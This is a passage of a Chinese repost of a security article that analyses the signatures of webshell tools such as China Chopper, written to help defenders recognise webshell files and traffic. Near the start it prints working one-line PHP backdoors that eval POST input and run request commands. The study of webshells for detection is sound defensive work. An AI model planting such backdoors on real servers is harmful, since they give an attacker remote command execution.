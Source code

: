 #  分享 | 菜刀冰蝎蚁剑哥斯拉等webshell工具及特征分析

小帽子summer  [ 渗透Xiao白帽 ](javascript:void\(0\);)

**渗透Xiao白帽** ![]()

微信号 SuPejkj

功能介绍 积硅步以致千里，积怠惰以致深渊！

____

__

收录于话题

> 原文作者：小帽子summer  
>
> 原文地址：https://www.freebuf.com/articles/web/324622.html

## 前言

在工作中经常会遇到各种websehll，黑客通常要通过各种方式获取
webshell，从而获得企业网站的控制权，识别出webshell文件或通信流量可以有效地阻止黑客进一步的攻击行为，下面以常见的四款webshell进行分析，对工具连接流量有个基本认识。

## Webshell简介

webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种代码执行环境，主要用于网站管理、服务器管理、权限管理等操作。使用方法简单，只需上传一个代码文件，通过网址访问，便可进行很多日常操作，极大地方便了使用者对网站和服务器的管理。正因如此，也有小部分人将代码修改后当作后门程序使用，以达到控制网站服务器的目的，也可以将其称做为一种网页后门

最普通的一句话木马：

  *   * 

    
    
    <?php   @eval($_POST['shell']);?><?php system($_REQUEST['cmd']);>

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220405173019.png)

## 中国菜刀

中国菜刀（Chopper）是一款经典的网站管理工具，具有文件管理、数据库管理、虚拟终端等功能。

它的流量特征十分明显，现如今的安全设备基本上都可以识别到菜刀的流量。现在的菜刀基本都是在安全教学中使用。

github项目地址：https://github.com/raddyfiy/caidao-official-version  

由于菜刀官方网站已关闭，现存的可能存在后门最好在虚拟机运行，上面项目已经进行了md5对比没有问题。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220405173031.png)

### 菜刀webshell的静态特征

菜刀使用的webshell为一句话木马，特征十分明显

